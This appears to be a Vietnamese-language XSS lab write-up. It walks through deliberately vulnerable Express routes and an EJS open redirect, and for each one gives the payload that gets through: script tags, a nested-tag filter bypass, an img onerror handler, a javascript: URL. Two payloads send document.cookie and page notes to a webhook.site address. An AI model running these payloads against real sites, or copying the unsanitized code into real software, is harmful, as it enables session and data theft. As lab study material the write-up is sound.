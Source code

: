 ### Example 1

```
router.get('/search', function (req, res, next) {
    html = 'Your search - <b>' + req.query.q + '</b> - did not match any notes.<br><br>'
    res.send(html);
});
```
thay thế req.query.q = <h1>test</h1> để kiểm tra xem trang web có xử lý tag html không. Từ đó, kết luận lỗ hổng xss:

Khai thác: `<script>alert(1)</script>`

Gửi document.cookie đến webhook: `<script>fetch('https://webhook.site/eed00e3b-780c-4e08-a013-3636f4d0acec?' + document.cookie </script>`

<script>fetch("/note").then(function(response){ return response.text()}).then(function(string){ fetch('https://webhook.site/[uniqueid]?note='+encodeURI(string)) });</script>

### Example 2

```
router.get('/search', function (req, res, next) {
    // Sử dụng regex để replace <script> tag
    // Flag g: dùng để match tất cả ký tự trong mẫu tìm kiếm
    // Flag i: case insensitve không phân biệt chữ hoa chữ thường
    sanitized_q = req.query.q.replace(/<script>|<\/script>/gi, "");
    html = 'Your search - <b>' + sanitized_q + '</b> - did not match any notes.<br><br>'
    res.send(html);
});
```

Filter <script> và <\script>. Nhưng chỉ lọc 1 lần và chỉ thay đổi <script>-->"" hoặc </script>-->"". Vì vậy khai thác:

`<scr<script>ipt>alert(1)</scr</script>ipt>`

### Example 3

```
router.get('/search', function (req, res, next) {
    // Don't allow script keyword
    if (req.query.q.search(/script/i) > 0) {
        res.send('Hack detected');
        return;
    }
    html = 'Your search - <b>' + req.query.q + '</b> - did not match any notes.<br><br>'
    res.send(html);
});
```

Lần này không thay <script> thì null nữa mà ban luôn =))))). Tìm tag khác có thể thay thế <script>.

Khai thác: `<img src=xss onerror = alert(1) >`

### Example 4

HttpOnly là 1 Set-cookie header nằm trong gói HTTP response. Mục đích chính của của httpOnly là bảo vệ cookie khỏi việc truy cập trái phép từ browsers.

### Example 5

EJS Template (Embedded JavaScript Template)

```
function redirect() {
            var url = new URL(window.location);
            var return_url = url.searchParams.get("return_url");
            window.location = return_url;
        }
```

Hàm redirect() trong đoạn mã này thực hiện chuyển hướng trang đến một URL được lấy từ tham số return_url của URL hiện tại. Cụ thể:
- var url = new URL(window.location); tạo một đối tượng URL dựa trên URL hiện tại của trang, cho phép dễ dàng thao tác với các phần khác nhau của URL (như tham số truy vấn, đường dẫn, domain, v.v.).
- var return_url = url.searchParams.get("return_url"); lấy giá trị của tham số truy vấn return_url từ URL hiện tại. Nếu return_url không tồn tại trong URL, return_url sẽ là null.
- window.location = return_url; điều hướng (chuyển hướng) trang đến return_url.

Những nơi có thể kích hoạt javascript:

![image](https://github.com/user-attachments/assets/9df84440-ce8a-4b17-9b24-afbdbabe8cbf)

Khai thác: return_url=javascript:alert(origin)





